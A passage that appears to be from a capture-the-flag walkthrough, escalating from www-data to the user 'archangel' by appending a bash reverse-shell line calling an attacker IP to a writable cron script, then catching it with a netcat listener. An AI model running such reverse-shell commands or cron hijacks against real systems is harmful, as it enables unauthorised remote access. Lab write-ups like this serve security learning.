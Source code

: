 ```shell
www-data@ubuntu:/home/archangel/myfiles$ ls
passwordbackup
www-data@ubuntu:/home/archangel/myfiles$ cat passwordbackup
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

i searched for files that are owned by `archangel` and got 2 that looked interesting. `/opt/helloword.sh` and `/opt/backupfiles`

```shell
www-data@ubuntu:/home/archangel/myfiles$ find / -user archangel 2>/dev/null
/opt/helloworld.sh
/opt/backupfiles
/home/archangel
/home/archangel/.selected_editor
/home/archangel/.local
/home/archangel/.local/share
/home/archangel/.profile
/home/archangel/secret
/home/archangel/user.txt
/home/archangel/myfiles
/home/archangel/.cache
/home/archangel/.bash_logout
/home/archangel/.bashrc
```

i checked again the cron jobs and now i saw the entry i was missing the first time i looked into the cron jobs.

```shell
www-data@ubuntu:/opt$ cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
```

the script is very easy to exploit. just append a reverse shell command and wait for the execution of the cron job.

```shell
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
bash -i >& /dev/tcp/<attacker-ip>/4445 0>&1
```

listening on attacker box:

```shell
nc -lvnp 4445
```

i got a new shell.
